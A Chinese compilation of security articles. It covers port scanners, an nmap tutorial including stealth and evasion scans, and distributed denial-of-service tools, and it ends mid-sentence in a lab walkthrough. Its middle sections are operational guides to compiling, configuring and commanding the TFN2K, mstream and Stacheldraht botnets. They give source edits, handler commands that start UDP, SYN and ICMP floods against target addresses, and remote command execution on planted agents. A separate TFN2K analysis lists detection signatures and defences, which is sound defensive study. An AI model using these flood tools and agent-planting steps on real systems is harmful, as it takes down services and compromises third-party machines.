Linuxlinks 的这篇文章列出了五款优秀的端口扫描器，供感兴趣的管理员和用户参考。
4.1.1 nmap
Nmap 是一款用于网络浏览或安全审计的免费开源工具。
nmap是一个网络连接端扫描软件，用来扫描网上电脑开放的网络连接端。确定哪服务运行在那些连接端，并且推断哪个操作系统计算机运行（这是亦称 fingerprinting）。它是网络管理员必用的软件之一，以及用以评估网络系统保安。
正如大多数工具被用于网络安全的工具，nmap 也是不少黑客及骇客（又称脚本小孩）爱用的工具 。系统管理员可以利用nmap来探测工作环境中未经批准使用的服务器，但是黑客会利用nmap来搜集目标电脑的网络设定，从而计划攻击的方法。
Nmap 常被跟评估系统漏洞软件Nessus 混为一谈。Nmap 以隐秘的手法，避开闯入检测系统的监视，并尽可能不影响目标系统的日常操作。
Nmap 在黑客帝国(The Matrix)中，连同SSH1的32位元循环冗余校验漏洞，被崔妮蒂用以入侵发电站的能源管理系统。
- 渗透测试工具Nmap从初级到高级使用教程
本文由阿德马翻译自国外网站，请尊重劳动成果，转载请注明出处，谢谢
Nmap是一款网络扫描和主机检测的非常有用的工具。Nmap是不局限于仅仅收集信息和枚举，同时可以用来作为一个漏洞探测器或安全扫描器。它可以适用于winodws,linux,mac等操作系统。Nmap是一款非常强大的实用工具,可用于：
检测活在网络上的主机（主机发现） 检测主机上开放的端口（端口发现或枚举） 检测到相应的端口（服务发现）的软件和版本 检测操作系统，硬件地址，以及软件版本 检测脆弱性的漏洞（Nmap的脚本） Nmap是一个非常普遍的工具，它有命令行界面和图形用户界面。本人包括以下方面的内容:
介绍Nmap
扫描中的重要参数
操作系统检测
Nmap使用教程
Nmap使用不同的技术来执行扫描，包括：TCP的connect（）扫描，TCP反向的ident扫描，FTP反弹扫描等。所有这些扫描的类型有自己的优点和缺点，我们接下来将讨论这些问题。
Nmap的使用取决于目标主机,因为有一个简单的（基本）扫描和预先扫描之间的差异。我们需要使用一些先进的技术来绕过防火墙和入侵检测/防御系统，以获得正确的结果。下面是一些基本的命令和它们的用法的例子：
扫描单一的一个主机，命令如下：
#nmap nxadmin.com
#nmap 192.168.1.2
扫描整个子网,命令如下:
#nmap 192.168.1.1/24
扫描多个目标,命令如下：
#nmap 192.168.1.2 192.168.1.5
扫描一个范围内的目标,如下：
#nmap 192.168.1.1-100 (扫描IP地址为192.168.1.1-192.168.1.100内的所有主机)
如果你有一个ip地址列表，将这个保存为一个txt文件，和namp在同一目录下,扫描这个txt内的所有主机，命令如下：
#nmap -iL target.txt
如果你想看到你扫描的所有主机的列表，用以下命令:
#nmap -sL 192.168.1.1/24
扫描除过某一个ip外的所有子网主机,命令：
#nmap 192.168.1.1/24 -exclude 192.168.1.1
扫描除过某一个文件中的ip外的子网主机命令
#nmap 192.168.1.1/24 -exclude file xxx.txt (xxx.txt中的文件将会从扫描的主机中排除)
扫描特定主机上的80,21,23端口,命令如下
#nmap -p80,21,23 192.168.1.1
Figure 1: 扫描特定主机的端口
从上面我们已经了解了Nmap的基础知识，下面我们深入的探讨一下Nmap的扫描技术.
Tcp SYN Scan (sS)
这是一个基本的扫描方式,它被称为半开放扫描，因为这种技术使得Nmap不需要通过完整的握手，就能获得远程主机的信息。Nmap发送SYN包到远程主机，但是它不会产生任何会话.因此不会在目标主机上产生任何日志记录,因为没有形成会话。这个就是SYN扫描的优势.
如果Nmap命令中没有指出扫描类型,默认的就是Tcp SYN.但是它需要root/administrator权限.
#nmap -sS 192.168.1.1
Tcp connect() scan(sT)
如果不选择SYN扫描,TCP connect()扫描就是默认的扫描模式.不同于Tcp SYN扫描,Tcp connect()扫描需要完成三次握手,并且要求调用系统的connect().Tcp connect()扫描技术只适用于找出TCP和UDP端口.
#nmap -sT 192.168.1.1
Udp scan(sU)
顾名思义,这种扫描技术用来寻找目标主机打开的UDP端口.它不需要发送任何的SYN包，因为这种技术是针对UDP端口的。UDP扫描发送UDP数据包到目标主机，并等待响应,如果返回ICMP不可达的错误消息，说明端口是关闭的，如果得到正确的适当的回应，说明端口是开放的.
#nmap -sU 192.168.1.1
FIN scan (sF)
有时候Tcp SYN扫描不是最佳的扫描模式,因为有防火墙的存在.目标主机有时候可能有IDS和IPS系统的存在,防火墙会阻止掉SYN数据包。发送一个设置了FIN标志的数据包并不需要完成TCP的握手.
root@bt:~# nmap -sF 192.168.1.8
Starting Nmap 5.51 at 2012-07-08 19:21 PKT
Nmap scan report for 192.168.1.8
Host is up (0.000026s latency).
Not shown: 999 closed ports
PORT STATE SERVICE
111/tcp open|filtered rpcbind
FIN扫描也不会在目标主机上创建日志(FIN扫描的优势之一).个类型的扫描都是具有差异性的,FIN扫描发送的包只包含FIN标识,NULL扫描不发送数据包上的任何字节,XMAS扫描发送FIN、PSH和URG标识的数据包.
PING Scan (sP)
PING扫描不同于其它的扫描方式，因为它只用于找出主机是否是存在在网络中的.它不是用来发现是否开放端口的.PING扫描需要ROOT权限，如果用户没有ROOT权限,PING扫描将会使用connect()调用.
#nmap -sP 192.168.1.1
版本检测(sV)
版本检测是用来扫描目标主机和端口上运行的软件的版本.它不同于其它的扫描技术，它不是用来扫描目标主机上开放的端口，不过它需要从开放的端口获取信息来判断软件的版本.使用版本检测扫描之前需要先用TCP SYN扫描开放了哪些端口.
#nmap -sV 192.168.1.1
Idle scan (sL)
Idle scan是一种先进的扫描技术，它不是用你真实的主机Ip发送数据包，而是使用另外一个目标网络的主机发送数据包.
#nmap -sL 192.168.1.6 192.168.1.1
Idle scan是一种理想的匿名扫描技术,通过目标网络中的192.168.1.6向主机192.168.1.1发送数据，来获取192.168.1.1开放的端口
有需要其它的扫描技术，如FTP bounce（FTP反弹）, fragmentation scan（碎片扫描）, IP protocol scan（IP协议扫描）,以上讨论的是几种最主要的扫描方式.
Nmap的OS检测（O）
Nmap最重要的特点之一是能够远程检测操作系统和软件，Nmap的OS检测技术在渗透测试中用来了解远程主机的操作系统和软件是非常有用的，通过获取的信息你可以知道已知的漏洞。Nmap有一个名为的nmap-OS-DB数据库，该数据库包含超过2600操作系统的信息。Nmap把TCP和UDP数据包发送到目标机器上，然后检查结果和数据库对照。
Initiating SYN Stealth Scan at 10:21 Scanning localhost (127.0.0.1) [1000 ports] Discovered open port 111/tcp on 127.0.0.1 Completed SYN Stealth Scan at 10:21, 0.08s elapsed (1000 total ports) Initiating OS detection (try #1) against localhost (127.0.0.1) Retrying OS detection (try #2) against localhost (127.0.0.1)
上面的例子清楚地表明，Nmap的首次发现开放的端口，然后发送数据包发现远程操作系统。操作系统检测参数是O（大写O）
Figure 2: namp的OS检测
Nmap的操作系统指纹识别技术：
设备类型（路由器，工作组等） 运行（运行的操作系统） 操作系统的详细信息（操作系统的名称和版本） 网络距离（目标和攻击者之间的距离跳）
如果远程主机有防火墙，IDS和IPS系统，你可以使用-PN命令来确保不ping远程主机，因为有时候防火墙会组织掉ping请求.-PN命令告诉Nmap不用ping远程主机。
以上命令告诉发信主机远程主机是存活在网络上的，所以没有必要发送ping请求,使用-PN参数可以绕过PING命令,但是不影响主机的系统的发现.
Nmap的操作系统检测的基础是有开放和关闭的端口，如果OS scan无法检测到至少一个开放或者关闭的端口，会返回以下错误： www.2cto.com
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS Scan的结果是不可靠的，因为没有发现至少一个开放或者关闭的端口.

Figure 3: osscanlimit
这种情况是非常不理想的，应该是远程主机做了针对操作系统检测的防范。如果Nmap不能检测到远程操作系统类型，那么就没有必要使用-osscanlimit检测。
想好通过Nmap准确的检测到远程操作系统是比较困难的，需要使用到Nmap的猜测功能选项, –osscan-guess 猜测认为最接近目标的匹配操作系统类型。
总结
Nmap是一个非常强大的工具，它具有覆盖渗透测试的第一方面的能力，其中包括信息的收集和统计。本文从初级到高级的讲解了Nmap入侵扫描工具的使用.希望对大家有所帮助.
4.1.2 Zenmap
ZenMap是安全扫描工具NMap的一个官方的图形 用户界面，是一个跨平台的开源应用，不仅初学者容易使 用，同时为高级使用者提供了很多高级特性。频繁的扫描能够被存储，进行重复运行。命令行工具提供了直接与NMap的交互操作。扫描结果能够被存储便于事后 查阅。存储的扫描可以被比较以辨别其异同。最近的扫描结果能够存储在一个可搜索的数据库中。
4.1.3 nast
Network Analyzer Sniffer Tool (nast) 是一个网络包嗅探和局域网分析工具，基于 libnet 和 libpcap 开发。
4.1.4 TCP端口扫描工具 Knocker
Knocker 是一个简单易用的 TCP 端口扫描工具，采用 C 语言编写，用于分析主机上运行的服务。
主要特点:
简单易用
C 语言编写
Display the program output in a "no-fency" mode
Perform a portscan on a single port
4.1.5 Unicornscan
Unicornscan 是一个新的信息收集引擎，主要用于安全研究和通讯测试，主要特点是精确、灵活而且高效。
Unicornscan is an attempt at a User-land Distributed TCP/IP stack. It is intended to provide a researcher a superior interface for introducing a stimulus into and measuring a response from a TCP/IP enabled device or network. Although it currently has hundreds of individual features, a main set of abilities include:
- Asynchronous stateless TCP scanning with all variations of TCP Flags.
- Asynchronous stateless TCP banner grabbing
- Asynchronous protocol specific UDP Scanning (sending enough of a signature to elicit a response).
- Active and Passive remote OS, application, and component identification by analyzing responses.
- PCAP file logging and filtering
- Relational database output
- Custom module support
- Customized data-set views
4.2 linux攻防
4.2.1 Linux系统攻防对抗实践
4.2.2 LINUX下SYN攻防战
4.2.3 Linux的攻击技巧
- 经典DDOS工具TFN2K的编译和使用方法
######################### TFN2K ##############################
什么是TFN2K？
TFN2K 的作者是著名的德国黑客mixter. http://mixter.void.ru/papers.html
TFN2K通过主控端利用大量代理端主机的资源进行对一个或多个目标进行协同攻击。当前互联网中的
UNIX、Solaris和Windows NT等平台的主机能被用于此类攻击，而且这个工具非常容易被移植到其它系统
平台上。
TFN2K由两部分组成：在主控端主机上的客户端和在代理端主机上的守护进程。主控端向其代理端发
送攻击指定的目标主机列表。代理端据此对目标进行拒绝服务攻击。由一个主控端控制的多个代理端主
机，能够在攻击过程中相互协同，保证攻击的连续性。主控央和代理端的网络通讯是经过加密的，还可
能混杂了许多虚假数据包。整个TFN2K网络可能使用不同的TCP、UDP或ICMP包进行通讯。而且主控端还能
伪造其IP地址。所有这些特性都使发展防御 TFN2K攻击的策略和技术都非常困难或效率低下。
如何使用TFN2K？
我的使用环境：Linux
1, 解压 tar zxvf tfn2k.tgz 2, 修改 a. src/Makefile 如果你的系统是linux系统，不需要做任何修就可以, 如果你想生产Windows下的代理端，需要做
一 些修改，但是我编译后的文件在Win2000 & WinXP下出错。 b. src/ip.h 注释掉以下部分，否则编译出错。
3，编译 a. cd tfn2k make 或者： b. cd tfn2k/src make 在提示设置密码后，会生成 tfn 和 td 两个文件，其中 tfn 是控制段，td 是守护进程。
4, 安装 td 自己去安装吧，需要root权限。
5, 攻击 a. 编辑一个文本文件，将安装了 td 的机器的ip地址添加进去, 格式为:
ip ip … …
b. 测试代理端(可选) ./tfn -f host.txt -c 10 -i "mkdir /tmp/testTFN2K" 检查安装了 td 的机器是否存在 /tmp/testTFN2K 目录
c. ./tfn 列出命令的格式和参数 ./tfn -f host -c 4 -i 1.1.1.1 对1.1.1.1发动 UDP flood 攻击
######################### Mstream ##############################
mstream的源程序共有两个文件：master.c 和 server.c 其中server.c用于生成agent端程序server, master.c用于生成控制端程序 master.
简单使用流程:
client(s)–>handler(s)–>agent(s)–>victim(s)
clent: attacker所在主机 handler: 运行 master 程序 agent: 运行 server 程序 victim: 被攻击主机
1, 修改源程序以符合自己的要求 注: 修改口令能防止自己的agent被滥用, 修改控制端口利于躲避IDS的探测.
server.c
#define PASSWORD "pssword" #define SERVERFILE ".sr" #define MASTERTCPPORT 6723 #define MASTERUDPPORT 9325 #define SERVERPORT 7983 #define MAXUSERS 3 #define USED 1 #define AUTH 2 #define max(one, two) (one > two ? one : two) … ….
其中比较关键是: #define PASSWORD "pssword" 将"password"替换成你自己的密码 #define MASTERTCPPORT 6723 和 #define MASTERUDPPORT 9325 是设置控制端口需要和master.c中
一致.
master.c
char *m[]={ "1.1.1.1", "2.2.2.2", "3.3.3.3", 0 };
#define MASTERPORT 9325 #define SERVERPORT 7983 … …
char *m[]={ "1.1.1.1", "2.2.2.2", "3.3.3.3", 0 }; 以上的ip地址要根据需要设置成你自己的.
#define MASTERPORT 9325 #define SERVERPORT 7983 以上端口要和server.c中的设置一致.
2, 编译 gcc -o master master.c gcc -o server server.c
3, 安装 自己选择合适的机器安装master和server程序. 并运行.
4, 使用 a. telnet ip port # ip 为运行master的主机, port为编译时设置的masterport 输入编译时设置的密码后, 进入handler控制模式:
如下:
Trying 1.1.1.1… Connected to 1.1.1.1 (1.1.1.1). Escape character is ']'. password > help
Available commands: stream – stream attack ! servers – Prints all known servers. ping – ping all servers. who – tells you the ips of the people logged in mstream – lets you stream more than one ip at a time >
命令简介： 注：测试中我发现我这个版本的stream命令没有效果，均使用mstream发起攻击。
servers 显示当前所有已知Agents who 显示当前已建立连接的用户 ping 确认Agents的活动状态。对所有已知Agents发送"ping"，每收到一个"pong"回应 就报告用户。 stream <hostname> <seconds> 针对单个主机攻击，seconds指定攻击持续时间。Handler将主机名解析成IP地址 并发送命令"mstream/arg1:arg1/arg2"到所有Agents，这里arg1是victim目标IP 地址，arg2是攻击持续时间。 mstream <ip1:ip2:ip3:…> <seconds> 针对多台主机攻击，seconds指定攻击持续时间。Handler发送命令 "mstream/arg1/arg2"到所有Agents，这里arg1是冒号分隔的victim目标IP地址 列表，arg2是攻击持续时间。 quit 终止Attacker到Handler的连接
b. > mstream 123.123.123.123 60 对主机123.123.123.123发动60秒攻击
> mstream 1.1.1.1:2.2.2.2:3.3.3.3 60 对多台主机同时发起攻击
######################### stacheldraht ##############################
Stacheldraht攻击网络由一个或多个主控程序（"mserv.c"）和大量的代理程序（"leaf/td.c"）组
成，同时还有用于提供加密功能的网络连接和通讯程序（"telnet.c/client.c"）。一个典型网络结构如
下：
攻击者–>主控端–>代理端–>受害者
1, 解压
total 136 -rw-r–r– 1 root root 13232 Aug 25 1999 bftab.h -rw-r–r– 1 root root 6597 Aug 25 1999 blowfish.c -rw-r–r– 1 root root 1291 Aug 25 1999 blowfish.h -rw-r–r– 1 root root 1276 Feb 5 2000 config.h drwxr-xr-x 2 root root 4096 Dec 13 11:15 leaf -rw-r–r– 1 root root 167 Sep 16 1999 Makefile -rwxr-xr-x 1 root root 46244 Dec 13 10:12 mserv -rw-r–r– 1 root root 39685 Dec 13 11:01 mserv.c drwxr-xr-x 2 root root 4096 Dec 13 11:08 telnetc -rw-r–r– 1 root root 3089 Aug 25 1999 tubby.h
2，修改源代码（注：行数仅供参考）
a、stacheldrahtV4/leaf/control.h 下述部分需要注释掉
12
b、端口： 下面三个程序的端口要设置对应，即mserv.c的MSERVERPORT和COMMANDPORT要和td.c、client.c对应
。 密码： 本部分比较关键，很多在编译完成后用clinet连接主控端的时候不知道口令, 因为口令是用3DES加
密后放在 mesrv.c 的 24 //#define SALT "dRFWfIGlF0zrE\0" , "dRFWfIGlF0zrE"就是加密后的口令. 它
是用口令的明文和client.c中的 "zA" (175 strcpy(result,crypt(password,"zA")):)经过3DES加密后的结果。 因为流传到你手中的源代码几乎肯定是被人修改过的, 多以我们需要重新建立自己的密码。可以用
下面的代码： crypt.c
#include <stdio.h> #include <crypt.h>
int main() // int argc, char **argv) { char *input = "11111111"; char *salt = "zA"; printf("%s\n", crypt(input, salt)); return 0; } -—————————————
zAj9s/lEcOIC. //此为密码明文11111111和zA加密后的密文 将密文"zAj9s/lEcOIC."替换mesrv.c 的"dRFWfIGlF0zrE"(24 //#define SALT "dRFWfIGlF0zrE\0") 注意"\0"需要保留. 此时编译后的密码为"11111111" 。
td.c
38 - 39 #define MSERVER1 "10.2.0.100" 40 #define MSERVER2 "192.168.0.84"
59 #define COMMANDPORT 65513
mserv.c
23
25 #define SALT "zAj9s/lEcOIC.\0" 26 27 28 #define MSERVERPORT 65512
37 #define LOCALIP "10.2.0.100"
41 42 #define COMMANDPORT 65513
client.c
24 #define MASTERSERVERPORT 65512 25 #define timeout 10 175 strcpy(result,crypt(password,"zA"));
3、编译 分别在3个目录中运行make后，生成了文件mesrv、clinet和td。
4、安装 将client和mesrv安装到你需要（能够）安装的机器，并运行。
5、使用
[*] stacheldraht [*] (c) in 1999 by randomizer
trying to connect… connection established.
enter the passphrase : 11111111 //我们设置的密码是"11111111"
entering interactive session. ** welcome to stacheldraht ** type .help if you are lame
stacheldraht(status: a!1 d!0)> //提示的"a!1 d!0"表示当前有活动和停止的代理端主机数量
stacheldraht(status: a!1 d!0)>.help available commands in this version are:
.mtimer .mudp .micmp .msyn .msort .mping .madd .mlist .msadd .msrem .distro .help .setusize .setisize .mdie .sprange .mstop .killall .showdead .showalive
stacheldraht(status: a!1 d!0)>
使用命令如下：
.distro user server 通知代理端程序使用"rcp"命令将其自身在主机"server"以"user"帐号安装并运行。
.help 显示帮助信息。
.killall 杀死所有活动的代理端程序。
.madd ip1[:ip2[:ipN]] 添加IP地址到攻击目标列表中。
.mdie 向所有代理端程序发送"die"请求。
.mdos 启动拒绝服务攻击。
.micmp ip1[:ip2[:ipN]] 启动针对指定主机的ICMP flood攻击。
.mlist 列出当前正被进行拒绝服务攻击的主机IP地址。
.mping 测试所有的代理端是否仍在活动。
.msadd 添加新的主控端主机到列表中。
.msort 排序输出已停止/正活动的代理端。
.mstop ip1[:ip2[:ipN]] .mstop all 停止指定IP地址或所有的攻击。
.msrem 从列表中删除一个主控端主机。
.msyn ip1[:ip2[:ipN]] 启动对指定主机的SYN flood攻击。
.mtimer seconds 设置攻击持续时间。
.mudp ip1[:ip2[:ipN]] 启动对指定主机的UDP flood攻击。
.setisize 设置ICMP攻击包大小（最大：1024，缺省：1024）。
.setusize 设置UDP攻击包大小（最大：1024，缺省：1024）。
.showalive 显示所有“正活动”的代理端主机。
.showdead 显示所有“已停止”的代理端主机。
.sprange lowport-highport 设置SYN flood攻击的端口范围（缺省为0-140）。
####################################################################################
- DDoS攻击工具——TFN2K 分析
本文是对分布式拒绝服务（DDoS）攻击工具"Tribe Flood Network 2000 (TFN2K)"的技术分析。TFN2K是由德国著名黑客Mixter编写的同类攻击工具TFN的后续版本。 关于Trinoo、TFN和Stacheldraht等分布式拒绝服务攻击工具的分析请参阅相关文档。 术 语
客户端——用于通过发动攻击的应用程序，攻击者通过它来发送各种命令。 守护程序——在代理端主机运行的进程，接收和响应来自客户端的命令。 主控端——运行客户端程序的主机。 代理端——运行守护程序的主机。 目标主机——分布式攻击的目标（主机或网络）。 什么是TFN2K？
TFN2K通过主控端利用大量代理端主机的资源进行对一个或多个目标进行协同攻击。当前互联网中的UNIX、Solaris和Windows NT等平台的主机能被用于此类攻击，而且这个工具非常容易被移植到其它系统平台上。 TFN2K 由两部分组成：在主控端主机上的客户端和在代理端主机上的守护进程。主控端向其代理端发送攻击指定的目标主机列表。代理端据此对目标进行拒绝服务攻击。由 一个主控端控制的多个代理端主机，能够在攻击过程中相互协同，保证攻击的连续性。主控央和代理端的网络通讯是经过加密的，还可能混杂了许多虚假数据包。整 个TFN2K网络可能使用不同的TCP、UDP或ICMP包进行通讯。而且主控端还能伪造其IP地址。所有这些特性都使发展防御TFN2K攻击的策略和技 术都非常困难或效率低下。 TFN2K的技术内幕
◆ 主控端通过TCP、UDP、ICMP或随机性使用其中之一的数据包向代理端主机 发送命令。对目标的攻击方法包括TCP/SYN、UDP、ICMP/PING或BROADCAST PING (SMURF)数据包flood等。 ◆ 主控端与代理端之间数据包的头信息也是随机的，除了ICMP总是使用 ICMPECHOREPLY类型数据包。 ◆ 与其上一代版本TFN不同，TFN2K的守护程序是完全沉默的，它不会对接收 到的命令有任何回应。客户端重复发送每一个命令20次，并且认为守护程 序应该至少能接收到其中一个。 ◆ 这些命令数据包可能混杂了许多发送到随机IP地址的伪造数据包。 ◆ TFN2K命令不是基于字符串的，而采用了"++"格式，其中是 代表某个特定命令的数值，则是该命令的参数。 ◆ 所有命令都经过了CAST-256算法（RFC 2612）加密。加密关键字在程序编 译时定义，并作为TFN2K客户端程序的口令。 ◆ 所有加密数据在发送前都被编码（Base 64）成可打印的ASCII字符。TFN2K 守护程序接收数据包并解密数据。 ◆ 守护进程为每一个攻击产生子进程。 ◆ TFN2K守护进程试图通过修改argv17内容（或在某些平台中修改进程名） 以掩饰自己。伪造的进程名在编译时指定，因此每次安装时都有可能不同。 这个功能使TFN2K伪装成代理端主机的普通正常进程。因此，只是简单地检 查进程列表未必能找到TFN2K守护进程（及其子进程）。 ◆ 来自每一个客户端或守护进程的所有数据包都可能被伪造。 监测TFN2K的特征
由于所有的控制通讯都是单向的，这使得实时监测TFN2K额外困难。因为其随机性地使用TCP、UDP和ICMP数据包，同时进行了加密，数据包过滤和其它被动式防御策略都显得不切实际和效率低下的。伪造的数据包更会增加追踪参与拒绝服务攻击的代理端主机的难度。 幸 运的是，TFN2K仍然有弱点。可能是疏忽的原因，加密后的Base 64编码在每一个TFN2K数据包的尾部留下了痕迹（与协议和加密算法无关）。可能是程序作者为了使每一个数据包的长度变化而填充了1到16个零 (0x00)，经过Base 64编码后就成为多个连续的0x41('A')。添加到数据包尾部的0x41的数量是可变的，但至少会有一个。这些位于数据包尾部的0x41('A')就 成了捕获TFN2K命令数据包的特征了。 对TFN2K客户端程序（tfn）和守护程序文件（td）的简单搜索也可能会找到TFN2K。虽然这些文件名可以随意修改，但客户端程序和守护程序包含许多特征字符串，可以作为搜索的关键字。如下： TFN2K客户端程序（tfn） [1;34musage: %s [-P protocol] [-S host/ip] [-f hostlist] [-h hostname] [-i target string] [-p port] <-c command ID> change spoof level to %d change packet size to %d bytes bind shell(s) to port %d commence udp flood commence syn flood, port: %s commence icmp echo flood commence icmp broadcast (smurf) flood commence mix flood commence targa3 attack execute remote command TFN2K守护程序（td） fork ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/ /dev/urandom /dev/random %d.%d.%d.%d sh* ksh* command.exe** cmd.exe** tfn-daemon*** tfn-child***
- Unix and Solaris systems only
* Windows NT systems only ** This text is likely to have been changed in many TFN2K installations TFN2K守护程序和客户端程序（tfn和td） securitythroughobscurity * D4 40 FB 30 0B FF A0 9F * 64 64 64 64 … **
- 程序编译时定义的函数名，是一个非常有用的特征字符串。
* CAST-256加密表格的头8个字节（按little-endian排序）。 ** Base 64编码算法使用的静态表格中连续128字节长度的0x64值。 TFN2K的防御策略
目前仍没有能有效防御TFN2K拒绝服务攻击的方法。最有效的策略是防止网络资源被用作客户端或代理端。 预 防 ◆ 只使用应用代理型防火墙。这能够有效地阻止所有的TFN2K通讯。但只使用应 用代理服务器通常是不切合实际的，因此只能尽可能使用最少的非代理服务。 ◆ 禁止不必要的ICMP、TCP和UDP通讯。特别是对于ICMP数据，可只允许ICMP类 型3（destination unreachable目标不可到达）数据包通过。 ◆ 如果不能禁止ICMP协议，那就禁止主动提供或所有的ICMPECHOREPLY包。 ◆ 禁止不在允许端口列表中的所有UDP和TCP包。 ◆ 配置防火墙过滤所有可能的伪造数据包。 ◆ 对系统进行补丁和安全配置，以防止攻击者入侵并安装TFN2K。 监 测 ◆ 扫描客户端/守护程序的名字。 ◆ 根据前面列出的特征字符串扫描所有可执行文件。 ◆ 扫描系统内存中的进程列表。 ◆ 检查ICMPECHOREPLY数据包的尾部是否含有连续的0x41。另外，检查数据侧 面内容是否都是ASCII可打印字符（2B，2F-39，0x41-0x5A，0x61-0x7A）。 ◆ 监视含有相同数据内容的连续数据包（有可能混合了TCP、UDP和ICMP包）。 响 应 一 旦在系统中发现了TFN2K，必须立即通知安全公司或专家以追踪入侵进行。因为TFN2K的守护进程不会对接收到的命令作任何回复，TFN2K客户端一般 会继续向代理端主机发送命令数据包。另外，入侵者发现攻击失效时往往会试图连接到代理端主机上以进行检查。这些网络通讯都可被追踪。
- 分布式拒绝攻击(DDOS)软件tfn2k攻防
首先，我写这篇文章的目的，并不是我想成为什么hacker之类，而且我不并不鼓励任何人利用它来做一些有损他人的事情，我只是想多一些人关注网络 安全，共同研究并防御DOS。因为我是深受其害:(，所以，这篇文章仅用于技术参考，供大家研究DDOS防御之用。如果你利用它来 做一些不合法的事情，那结果与我无关。 拒绝服务攻击（DOS，Denial Of Service)可以指任何使服务不能正常提供的操作。如软件bug,操作失误等。不过现在因为失误操作而造成的dos，可能性非常小，更多的是恶意的攻 击行为。现在拒绝服务攻击早已演变为分布式拒绝服务攻击(DDOS,Distributed Denial Of Service),利用更多的代理集中攻击目标，其危害更大。 我们大家都知道tcp/ip协议现在已经成为整个internet框架协议，可以说，如果没有tcp/ip，至少internet不会像现在这样普 及，甚至不可能会有internet。但凡事皆有两面性，tcp/ip使我们大家受益，同时因为协议本身构造的问题，它也成为别人攻击我们的工具。我们以 tcp三握手建立连接的过程来说明。 一。tcp syn flood 1.客户端(client)发送一个包含SYN(synchronize)的tcp包至服务器，此数据包内包含客户端端口及tcp序列号等基本信息。 2.服务器(server)接收到SYN包之后，将发送一个SYN-ACK包来确认。 3.客户端在收到服务器的SYN-ACK包之后，将回送ACK至服务器，服务器如接收到此包，则TCP连接建立完成，双方可以进行通讯（感觉像，一拜天地…二拜高堂…送入洞房…哈哈） 问题就出在第3步，如果服务器收不到客户端的ACK包，将会等待下去，这种状态叫做半连接状态。它会保持一定时间(具体时间不同操作系统不同),如 果SYN请求超过了服务器能容纳的限度，缓冲区队列满，那么服务器就不再接收新的请求了,其他合法用户的连接都被拒绝掉。这种攻击往往事半罪倍，杀伤力超 强。 当然，DOS攻击的方法多种多样，如:UDP flood,ICMP/Ping,ICMP/SMURF…,具体原理的介绍大家可以到http://www.chinaitlab.com/www/special/ciwddos.asp去看看，有很详细的原理及常用攻击软件介绍。不过说到DOS攻击软件，最具代表的莫过于tfn2k (Tribe Flood Network 2000),其作者是德国大名鼎鼎的mixter( 其主页http://mixter.void.ru/papers.html),好像最近正在埋头搞什么tfn3k，哎~~，不知道又有多少人寝食难安了… 二.tfn2k攻击原理 1.tfn2k的攻击体系。 tfn2k应该算是DDOS攻击中的代表作，其所能实现的功能让人瞠目结舌，叹为观止…(对它的敬畏有如滔滔江水，延续不绝…)来看看它的架构。 主控端—运行tfn客户端，来遥控并指定攻击目标，更改攻击方法.(罪大恶极) 代理端—被植入并运行td进程的牺牲品，接受tfn的指挥，攻击的实施者.需要注意的是，一个攻击者，往往控制多台代理来完成攻击，而且其系统多为unix,linux等.(可怜的牺牲品） 目标主机—被攻击的主机或网络，曾经被DDOS的有Yahoo、Amazon、CNN、e-bay等.(最大的受害者，郁闷如我) 2.tfn2k特性。 ◆ 主控端通过TCP、UDP、ICMP或随机性使用其中之一(默认.随机)的数据包向代理端主机发送命令,攻击方法包括TCP/SYN、UDP、ICMP/PING、混合攻击、TARGA3等。 ◆ 主控端与代理端的通讯采取单向，即主控端只向代理端发送命令，并且会采取随机的头信息，甚至虚拟的源地址信息,代理端不会逆向向主控端发送任何信息. ◆ 所有命令经过CAST-256算法加命,其关键字即编译程序时的输入的口令.并且这个口令做为唯一认证凭证. ◆ 利用td进程，主控端可以远程执行shell命令. ◆ td进程的名称可以在编译时更改,更便于隐藏. ◆ tfn可以编译运行于win32及linux系统的. … 至于伪造源IP地址等功能，更是基本功能，并且其与老版本的tfn相比，它的发包效率更高，我自已的测试，在短短不到5分钟，两台代理机，使我的redhat linux 9.0系统瘫痪. 三.tfn2k 实战测试 1.测试环境: 软件：redhat linux 9.0 硬件平台： master: IP: 192.168.0.6 PIV2.4/256*2/rtl8139 Ag1 : IP: 192.168.0.2 PIV2.4/256*/rtl8139 AG2 : IP: 192.168.0.3 pIV2.6/512*2/3c905 AIM: 192.168.0.5 pIV2.66c/512*2/3c905 switch: Dlink des 1024R 1.下载tfn2k.tgz(因为此软件非比寻常，所以我并不提供下载地址，如果有兴趣，自已到网上找吧) 2.解压： tar zxvf tfn2k.tgz 3.修改文件 A. src/Makefile 如果你的系统是linux系统，不需要做任何修就可以，如果是win32系统，请将
CC = gcc CFLAGS = -Wall -O3 CLIBS = 这几行注释掉,并将
#CC = gcc #CFLAGS = -Wall -DWINDOZE -O2 #CLIBS = 这几行的注释去掉.因为我的测试系统为redhat linux 9.0所以并未做任何修改. B. src/config.h ，默认的就可以用，如果感兴趣，可以照其注释信息进行调整。 C. src/ip.h 这里要做一些修改，否则编译会有错误，发生重复定义。
注意啊~~我可是将它放在""之间，也就是注释掉了:) D.更改编译器： 因为tfn2k支持的是egcs-1.1.2-30,而redhat linux 9.0所包含的是gcc-3.2.2-5,所以如果不替换掉gcc，tfn2k是编译不过去的.需 要注意的是，更改之后，有可能会造成基于gcc3.2.2的软件编译不去,请谨慎而行. 方法很简单的，找到一张redhat linux 6.2安装盘,将egcs-1.1.2-30.rpm、cpp-1.1.2-30.rpm拷到~/ cd mnt/cdrom/Redhat/RPMS cp egcs-1.1.2-30* cpp-1.1.2-30* ~ 安装cpp rpm -Uvh –nodeps –oldpackage cpp-1.1.2-30.i386.rpm 安装egcs rpm -Uvh egcs-1.1.2-30.i386.rpm (如果提示有误，用nodeps、oldpackages、ignoreos等参数忽略过去就是了） 4.编译tfn2k cd tfn2k/src make 首先会谈出一个声明，你必须接受，之后会提示输入8-32位密码,前边提到过，这是唯一的认证凭证，会被分发于td进程中，所以一定 要记牢噢~。 编译通过后，会产生td及tfn，这就是大名鼎鼎的tfn2k啦~,td是守护进程，用来安装在代理中的，而tfn就是控制端. 5.安装td. 将td上传到我的两台代理,ag1(192.168.0.2)和ag2(192.168.0.3) ，因为我只不过测试，所以用的是合法的root来上传并执行td进程的，如果真要找到并安装一个代理，你可能得费点儿神，因为没有一个管理员会说 “come on baby ~~.我给你root,来安装td做代理吧” [root@test /] ftp 192.168.0.2 Connected to 192.168.0.2. 530 Please login with USER and PASS. 530 Please login with USER and PASS. Name 